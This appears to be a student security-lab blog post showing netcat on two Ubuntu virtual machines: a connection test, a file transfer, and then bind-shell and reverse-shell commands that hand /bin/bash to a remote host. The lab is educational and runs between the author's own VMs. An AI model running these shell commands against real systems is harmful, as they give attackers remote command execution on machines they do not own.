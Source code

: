 ```yaml
---
layout: default
categories: posts
title: Blog 7
---
```


## Bind and Reverse Shells - Ubuntu(VM)

At the first step we need to run two hosts on two different virtual machines. So we name the first host Alice and second Bob. Now we want to make sure the both sides can see eachother so we run the ping command on both ends. On each machine 
On each VM, while still connected to NAT, we execute the following command "apt-get install netcat" then "sudo update-alternatives --config nc" (and select option 2, nc.traditional, when prompted)
Next step we put each VM on the Host-Only Adapter network. Each should have an IP like 192.168.56.101.

We need to make sure the devices can ping each other
Record and keep the IPv4 IP Address of Bob 
Record and keep the IPv4 IP Address of Alice 


### Testing the first communication between two hosts

On Alice's computer we execute "nc -nlvp 4444 then on Bob's execute nc -nv ip.address.of.alice 4444

### Transferring files between two hosts

At alice, we execute this command: echo “Secret Message” > payload.txt
Next at bob, we execute: nc –nlvp 4444 > fromAlice.txt
Then at alice, we execute: nc –nv ip.addr.of.bob 4444 < payload.txt
When the transmission is finished, type CTRL-C on alice’s side

![pic1](https://raw.githubusercontent.com/sevak84/sb.github.io/master/docs/_images/blog7-01.PNG)


### Bind Shell 
At alice, we execute: touch foo.bar (to make a file named foo.bar in current directory)
At alice, we execute: nc –nlvp 4444 –e /bin/bash
At bob, we execute: nc –nv ip.addr.of.alice 4444
At bob, we type “ls” and press enter
At bob, we type “whoami” and press enter

### Reverse Shell
At alice, we execute: nc –nlvp 4444
At bob, we execute: nc –nv ip.addr.of.alice 4444 –e /bin/bash
When connected, at alice, we type “whoami” and press enter
At alice, we type “ls” and press enter

At the end we can see the files are trasferrring between two hosts with commands on Ubuntu. 

![pic2](https://raw.githubusercontent.com/sevak84/sb.github.io/master/docs/_images/blog7-02.PNG)

![pic3](https://raw.githubusercontent.com/sevak84/sb.github.io/master/docs/_images/blog7-03.PNG)







